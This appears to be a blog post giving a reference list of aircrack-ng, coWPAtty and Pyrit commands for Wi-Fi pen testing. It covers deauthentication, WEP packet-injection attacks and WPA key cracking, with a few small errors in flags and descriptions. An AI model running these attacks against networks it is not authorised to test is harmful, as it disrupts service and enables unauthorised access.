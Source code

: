 ```yaml
---
title: Attacking Wifi - Commands
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
layout: post
---
```

This post will highlight many of the different aircrack-ng commands used in hacking/pen testing wireless networks.  This post does not go into the how, but is more of a reference of the commands and parameters.

* [General](#general)
  * [Monitor Mode](#monitor-mode)
  * [Scanning Networks](#scanning-networks)
  * [Deauthentication Attack](#deauthentication-attack)

## General

### Monitor Mode
There are a couple different options for putting your wifi adapter into monitor mode.

> `iw dev <interface> set monitor none`

> `airmon-ng start <interface>`

### Scanning Networks
Airodump-ng is used to scan for wifi networks and clients that are in the range of your wireless card

> `airodump-ng -c <channel> -w <capture> --wps --band abg --essid <essid> --bssid <bssid> <int>`

The required parameters
* <int> - The wireless interface that is in monitor mode

The following flags are all optional
* -c <channel> - This will filter your scan to a specific wifi channel
* --wps - This flag will include WPS information for wireless networks found
* -w <capture> - This flag will write the scan results to a file
* --band <bands> - This flag allows you to only scan wifi networks operating on specified bands
* --essid <essid> - This flag will filter the scan to a specific Client
* --bssid <bssid> - This flag will filter the scan to a specific AP

### Deauthentication Attack
This attacks sends disassociate packets to one or more clients connected to a specific AP
> `aireplay-ng -0 <num> -a <ap> -c <client> <int>`

All parameters and flags are required
* -0 - Deauthentication attack method
* <num> - The number of deauths to send, 0 will send continuously
* -a <ap> - The mac address of the AP
* -c <client> - The mac address of the client to deauthenticate
* <int> - The wireless interface to use

## Cracking

#### IV-based Crack
> `aircrack-ng <capture>`

#### PTW-based Crack
> `aircrack-ng -z <capture>`

#### Word List-based Crack
> `aircrack-ng -w <wordlist> <capture>`

#### Airolib DB Crack
> `aircrack-ng -r <dbName> <capture>`

#### JTR-based Crack
> `john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <essid> -w - <capture>`

## WEP Attacks

#### Fake Authentication
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

#### ARP Request Replay Attack
> `aireplay-ng -3 -b <ap> -h <you> <interface>`

#### Interactive Packet Replay Attack
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

#### KoreK chopchop attack
> `aireplay-ng -4 -b <ap> -h <you> <interface>`

#### Fragmentaion Attack
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

#### Craft ARP Request Packet**
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

#### Inject Packet**
> `aireplay-ng -2 -r <packet> <interface>`

#### Fake Shared Key Authentication
> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

## WPA Attacks

#### coWPAtty Attack 
> `cowpatty -r <capture> -f <wordlist> -2 -s <essid>`

#### Rainbow Table Generation
> `genpmk -f <wordlist> -d <hashesFilename> -s <essid>`

#### Rainbow Table coWPAtty Attack
> `cowpatty -r <capture> -d <hashesFilename> -2 -s <essid>`

#### Pyrit Sniff
> `pyrit -r <interface> -o <capture> stripLive`

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point
> `pyrit -e <essid> create_essid`

Generate PMKs for the ESSID
> `pyrit batch`

Launch Pyrit in database mode
> `pyrit -r <capture> -b <ap> attack_db`


